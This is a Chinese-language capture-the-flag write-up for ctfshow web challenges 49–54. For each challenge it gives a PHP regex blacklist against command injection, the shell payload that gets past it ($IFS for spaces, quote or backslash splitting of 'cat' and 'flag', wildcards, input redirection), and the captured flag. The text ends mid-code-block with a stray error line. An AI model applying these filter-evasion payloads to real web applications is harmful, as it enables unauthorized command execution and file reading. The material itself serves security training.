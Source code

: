 题目：新增过滤 \`|% 这里过滤%对使用%09没有没有影响原因是这里的%09表示16进制编码的tab

```preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)```

payload `/?c=ca\t<fl\ag.php||` `nl%09fla?.php||`

flag `ctfshow{81f1cab9-24bc-46ec-98cc-74c1806ef9b4}`

## Web50

题目新增：\x09|\x26表示十六进制的09和26,也就是说上面的%09(tab)做分隔符、%26(&)做结束符的绕过不能用了

```preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c) ```

这里不知道为什么没过滤?但不能用?做通配符了

payload `/?c=ca\t<fl\ag.php||` `nl<fla''g.php||`

flag:`ctfshow{cd263909-d578-4d5c-8ea7-cdc17ccb376e}`

## Web51

题目新增：tac过滤，使用nl|ta\c|ta''c|vi

```preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)```

payload `/?c=nl<fl\ag.php||` `ta\c<fla''g.php||`

flag: `ctfshow{2b9f7a14-9fb5-445b-a9f9-dd9d39bf9e0b}`

## Web52

题目新增：<|>但是少了个$，用$IFS代替空格

preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)

payload: `/?c=nl$IFS/fla\g||` 这里flag在根目录下?c=ls$IFS/||

![web52_ls](./image/web52_ls.png)

flag `ctfshow{9bf0defc-f474-4390-9a47-d19be8e9702f}`

## web53

题目新增过滤：

- [0,9]不能使用$IFS$9flag.php的方法代替空格，也不能用  <（输入重定向）
- 另外过滤|more|wget|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|可以用ta''c或者ta\c的方式绕过，也可以用没过滤的vi，nl绕过

![web53_timu](./image/web53_timu.png)

payload: `/?c=ta%27%27c${IFS}fla%27%27g.php`

flag:`ctfshow{d33ed7db-47ea-4d03-b88a-5fd8eb767e16}`

## Web54

题目过滤：不能使用ca''t或者ca\t的方法绕过了，flag过滤就用?通配符

``````
preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)

[ERROR]: could not find driver